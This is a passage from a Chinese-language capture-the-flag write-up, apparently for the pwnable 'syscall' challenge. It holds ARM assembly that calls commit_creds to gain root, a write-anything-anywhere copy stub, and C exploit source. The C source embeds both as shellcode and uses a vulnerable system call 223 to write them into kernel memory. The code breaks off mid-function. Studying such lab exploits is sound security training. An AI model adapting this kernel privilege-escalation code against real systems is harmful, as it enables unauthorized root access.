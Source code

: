 ```
    str r1, [r0], #4
    str r1, [r0], #4
    str r1, [r0], #4

    pop {r0}
    ldr r3, =0x8003f56c  @ commit_creds(r0)
    blx r3

    pop {lr}
    bx lr
```

这个生成的指令是不能用原先的 223 号系统调用直接写进内存的，所以我准备了一个真正的`write-anything-anywhere`的跳板:

```
@ Write anything anywhere

.section .text
.global _start
_start:

lp:
    ldrb r3, [r0], #1
    strb r3, [r1], #1
    subs r2, r2, #1
    bge lp

    bx lr
```

先把 waa 写进内存，然后把 cred 写进内存。至于写到哪里，我随手写了两个地址: 0x83f5cafe, 0x83f6beee.

#### 2.4 exp集锦

参考: [https://cubarco.org/blog/2015/12/writeup-pwnable-syscall/](https://cubarco.org/blog/2015/12/writeup-pwnable-syscall/)

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

char cred[] = "\x04\xe0\x2d\xe5\x00\x00\xa0\xe3\x40\x30\x9f\xe5\x33\xff\x2f\xe1\x04\x00\x2d\xe5\x01\x10\x41\xe0\x04\x00\x80\xe2\x04\x10\x80\xe4\x04\x10\x80\xe4\x04\x10\x80\xe4\x04\x10\x80\xe4\x04\x10\x80\xe4\x04\x10\x80\xe4\x04\x10\x80\xe4\x04\x10\x80\xe4\x04\x00\x9d\xe4\x0c\x30\x9f\xe5\x33\xff\x2f\xe1\x04\xe0\x9d\xe4\x1e\xff\x2f\xe1\x4c\xf4\x03\x80\x6c\xf5\x03\x80";
char waa[] = "\x01\x30\xd0\xe4\x01\x30\xc1\xe4\x01\x20\x52\xe2\xfb\xff\xff\xaa\x1e\xff\x2f\xe1";

char addr1[] = "\xfe\xca\xf5\x83";
char addr2[] = "\xee\xbe\xf6\x83";

int ret;

int main()
{
    asm volatile (
        "mov r0, %1\n"
        "mov r1, %2\n"
        "mov r7, #223\n"
        "svc #0\n"
        "mov r0, %3\n"
        "mov r1, %4\n"
        "mov r7, #223\n"
        "svc #0\n"
        "mov %0, r0"
```